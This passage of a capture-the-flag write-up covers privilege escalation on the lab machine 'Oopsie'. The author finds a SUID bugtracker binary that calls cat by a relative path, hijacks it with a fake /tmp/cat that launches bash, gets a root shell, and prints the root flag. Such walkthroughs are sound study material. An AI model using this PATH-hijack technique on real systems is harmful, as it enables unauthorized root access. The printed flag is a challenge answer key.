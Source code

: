 ~~~
robert@oopsie:/$ strings /usr/bin/bugtracker 

[REDACTED]

------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/

[REDACTED]

~~~

We see that it calls the `cat` binary using this relative path instead of the absolute path. By creating a malicious `cat`, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.

Let's add the current working directory to PATH, create the malicious binary and make it executable.

~~~
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat
~~~

Let's start the `bugtracker` executable again to get a root shell:

~~~
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:/tmp# whoami
root
root@oopsie:/tmp# cat /root/root.txt 
root@oopsie:/tmp# xxd /root/root.txt
00000000: 6166 3133 6230 6265 6536 3966 3861 3837  af13b0bee69f8a87
00000010: 3763 3366 6166 3636 3766 3762 6561 6366  7c3faf667f7beacf
00000020: 0a                                       .
root@oopsie:/tmp# 
~~~

Root flag: `af13b0bee69f8a877c3faf667f7beacf`

# Post Exploitation
